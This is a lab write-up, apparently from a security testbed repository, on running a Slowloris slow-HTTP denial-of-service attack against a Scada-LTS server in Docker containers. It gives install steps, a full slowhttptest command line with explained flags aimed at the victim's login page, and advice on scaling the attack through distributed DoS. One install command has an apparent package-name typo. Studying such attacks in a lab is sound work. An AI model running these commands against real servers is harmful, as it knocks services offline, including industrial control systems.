

# Slowloris Attack on HTTP

- [Slowloris Attack on HTTP](#slowloris-attack-on-http)
	- [HTTP](#http)
	- [Slowloris Attack on Scada-LTS via HTTP](#slowloris-attack-on-scada-lts-via-http)

## HTTP

Refer to [Mozilla's overview of HTTP](https://developer.mozilla.org/en-US/docs/Web/HTTP/Overview) if you don't know it.

## Slowloris Attack on Scada-LTS via HTTP

A slowloris attack is a kind of slow HTTP DoS attack. It consumes the resource of the victim HTTP server by gradually establishing lots of connections to it and periodically sending keep-alive packets in these connections to remain these connections unclosed. In this way, the attacker uses fewer resource to occupy lots of available connections in the victim server.

Refer to the [source code](https://github.com/gkbrk/slowloris/) of Slowloris attack.

The slowloris attack is conducted using the `slowhttptest` tool. `slowhttptest` is available in `APT` packet manager.

- Our KaliLinux Docker image already has `slowhttptest` installed.

```sh
sudo apt update
sudo apt install slowhttpattack
```

You may also install Slowloris via `pip3` in generic Linux.

```sh
pip3 install slowloris
```

Use `slowhttptest -h` to display the full help. Here's a sample use case to estalish total 1000 connections, one in a second, with keep-alive headers sent every 10 seconds and HTTP refreshing every 60 seconds, targeting the specified URL.

```sh
# -H use Slowloris attack
# -c number of connections to be established
# -r number of connections established concurrently in one second
# -i interval to send keep-alive headers
# -p timeout seconds of a HTTP connection
# -u target URL to attack
slowhttptest -H -c 1000 -r 1 -i 10 -p 60 -u http://172.16.50.1:8080/Scada-LTS/login.htm
```

Figure 1 below shows a Slowloris attack establishing 1000 HTTP connections to the victim server. However, the service of victim server is still available. To make the attack effective, Slowloris is often carried out in Distributed DoS approach with dozens of attackers targeting one victim.

<br/>



<p align="center"><b>Figure 1</b> Slowloris Attack on HTTP</p>

<br/>

Since the attacker KaliLinux and the victim Scada-LTS are all Docker containers in the same physical PC, then by default they dynamically share the CPU power of this PC and brute-force DoS attack may not make a difference to the victim. To deal with that, we can limit the use of CPU of the victim using Docker parameters like `--cpu-shares` for CPU share, `--cpus` and `--cpuset-cpus` for CPU kernel numbers, and `--cpu-period` and `--cpu-quota` for CPU period. Refer to [official Docker documents](https://docs.docker.com/config/containers/resource_constraints/#cpu) for details.

- These Docker parameters are added in "Start command" in GNS3 node configuration.
